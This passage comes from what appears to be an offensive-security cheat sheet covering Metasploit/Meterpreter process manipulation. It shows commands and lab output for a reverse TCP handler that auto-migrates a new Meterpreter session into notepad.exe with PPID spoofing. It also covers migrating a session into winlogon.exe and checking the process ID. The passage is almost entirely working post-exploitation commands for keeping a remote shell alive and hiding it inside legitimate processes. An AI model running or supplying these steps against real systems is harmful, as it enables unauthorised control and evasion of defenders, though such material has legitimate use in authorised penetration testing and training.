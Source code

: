 #### 2.1.4 - Process Manipulation

##### 2.1.4.1 - Migrate to Another Process

* **Setting up listener to auto migrate to another process**

```
msf exploit(multi/handler) > set lhost 10.0.2.4

msf exploit(multi/handler) > set lport 4444

msf exploit(multi/handler) > set autorunscript post/windows/manage/migrate name=notepad.exe

msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Sending stage (200262 bytes) to 10.0.2.15
[*] Session ID 4 (10.0.2.4:4444 -> 10.0.2.15:49840 ) processing AutoRunScript 'post/windows/manage/migrate name=notepad.exe'
[*] Running module against DEFALT
[*] Current server process: powershell.exe (1136)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1280
[+] Successfully migrated into process 1280
[*] Meterpreter session 4 opened (10.0.2.4:4444 -> 10.0.2.15:49840 ) at 2022-05-15 15:35:51 -0400
```

* **Migrate to another process**

```
meterpreter > migrate -h
Usage: migrate <<pid> | -P <pid> | -N <name>> [-t timeout]

Migrates the server instance to another process.
NOTE: Any open channels or other dynamic state will be lost.

meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>

meterpreter > migrate -N winlogon.exe
[*] Migrating from 4980 to 412...
[*] Migration completed successfully.
```

##### 2.1.4.2 - Get Process ID

```
meterpreter > getpid
Current pid: 1280
```

#### 2.1.5 - Execute Process
